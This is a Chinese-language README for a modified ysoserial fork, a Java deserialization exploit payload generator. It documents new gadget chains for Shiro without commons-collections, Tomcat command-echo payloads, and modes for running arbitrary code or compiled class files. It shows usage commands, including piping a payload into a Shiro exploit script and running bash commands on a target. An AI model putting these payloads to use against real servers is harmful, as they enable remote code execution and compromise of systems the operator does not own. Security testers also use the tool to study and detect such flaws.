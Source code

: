 # 修改版ysoserial


## 一.新增时间延迟检测payload  

1.CommonsBeanutils1_Time  
2.CommonsCollections1_Time  
3.CommonsCollections2_Time  
4.CommonsCollections3_Time  
5.CommonsCollections4_Time  
6.CommonsCollections5_Time  
7.CommonsCollections6_Time  
8.CommonsCollections7_Time

Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_Time 9000   #以ms为单位，9000表示延迟9秒```


## 二.新增无commons-collections依赖的commons-beanutils  
1.CommonsBeanutils1Shiro      #主要用于解决Shiro反序列化无commons-collections依赖问题。  

Reference:  
https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html


## 三.新增Tomcat回显payload
1.CommonsBeanutils1_TomcatEcho  
2.CommonsBeanutils1Shiro_TomcatEcho    #无commons-collections依赖的commons-beanutils回显  

Example:  
```python shiro_exp.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1Shiro_TomcatEcho | base64` ```  
需要在头部添加X-Protection字段执行命令
![image](https://github.com/M-Kings/ysoserial/blob/main/IMG/1.png)


Ps:    
目前只写了两个回显的例子，同理可实现其他payload的回显，懒得写了，后续再更新


## 四.扩展代码执行
1.code mode  
command以code:开头,传入需要执行的自定义代码  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'code:Thread.currentThread().sleep(9000L);'```

1.class file mode  
command以classfile:开头,传入编译好的Exp的class文件  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'classfile:exp.class'```

Reference:  
http://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/

## 五.解决命令管道、重定向符问题
原ysoserial不支持使用管道、重定向符，如以下命令是不行的:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "echo 123 >/tmp/123"```

改了之后支持命令管道和重定向符问题,支持使用多参数命令传入:  
```java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "bash" "-c" "echo 123 >/tmp/123"```
